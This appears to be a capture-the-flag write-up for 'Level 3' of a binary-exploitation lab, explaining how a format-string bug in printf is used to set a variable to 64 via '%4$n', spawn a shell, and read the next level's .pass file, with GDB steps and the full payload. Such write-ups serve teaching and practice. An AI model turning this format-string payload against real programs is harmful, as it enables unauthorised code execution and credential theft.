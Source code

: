 # LEVEL 3

## 💡 Explanation

In this level we have to:
1. Having a look to the main we can see that there's a call to the function `v`. This function is pretty simple to understad: (1)it asks for input calling to `fgets`, (2) it prints what has been readed using `printf`, (3) compares the variable `m` to 0x40 (64 in decimal) and (4) if the comparison evaluates to true, it printfs "Wait what?!" and opens a shell by doing a call to `system`.
2. Obviusly what we have to do is to manage set the variable `m` to 64, so the program get's in the comparison and opens a terminal. We can not exploit the `fgets` because this funciton is protected against buffer overflows; therefore what we are going to exploit is `printf`.
3. We first have to test that actually we can pass to printf a formatting string and that it'll process it. We can do that by trying to get direct access to the stack by using `"Hello my name is %p"`. It works!
4. Now, we have to find out where does printf starts writing. To do so we can pass a string formatted with a code that we know (for example "AAAA" == 0x41414141) followed by a lot of `"%p"`. We see that the 0x41414141 appears as the 4th element in the stack, meaning that we can use this to save the `m` variable address as the 4th element in the stack.
5. Last thing: we have to manage is how to write the value "64" on `m`... To do so we are going to use the formatter `%n` which receives as a parameter the position in the stack were it is going to read (our case is the 4th position on the stack == `$4`) and writes on it the number of characters written before reaching this formatter. We have to build an exploit like: [ADDRESS M][RANDOM CHARS][%N FORMATTER TO $4] where the first two part have to have a lenght of 64 bytes!

## 👾 Commands

To find the solution:
```
[GDB] disas main
[GDB] disas v
[GDB] b *0x080484df => it is right before the cmp, so we can set the eax to 0x40
[GDB] info variables => get the address of the variable m
[GDB] set ($eax) = 0x40 => stepp to see how we get in the if
[GDB] b *0x08048513 => right before the call to system, we'll see in the stack "/bin/bash"
[VM]  python -c 'print "Hello my name is %p"' | /home/user/level3/level3
[VM]  python -c 'print "AAAA %p %p %p %p %p %p %p"' | /home/user/level3/level3
[VM]  python -c 'print "\x8c\x98\x04\x08 %p %p %p %p"' | /home/user/level3/level3
```

To execute the solution:
- `(python -c 'print "\x8c\x98\x04\x08" + "A"*60 + "%4$n"' ; cat - ) | /home/user/level3/level3`
- `cd /home/user/level4`
- `cat .pass`

## 🔍 Resources

- [Chaine de format - introduction](https://www.root-me.org/fr/Documentation/Applicatif/Chaine-de-format-introduction)
- [Chaine de format - lecture en mémoire](https://www.root-me.org/fr/Documentation/Applicatif/Chaine-de-format-lecture-en-memoire)
- [Chaine de format - écriture en mémoire](https://www.root-me.org/fr/Documentation/Applicatif/Chaine-de-format-ecriture-en-memoire)
- [Format String Exploitation-Tutorial](https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf)
- [How to Write Specific Values to Memory with Format String Exploitation](https://null-byte.wonderhowto.com/how-to/exploit-development-write-specific-values-memory-with-format-string-exploitation-0182112/)
- [Une simple Exploitation de vulnérabilité Format String](https://www.exploit-db.com/papers/23985)
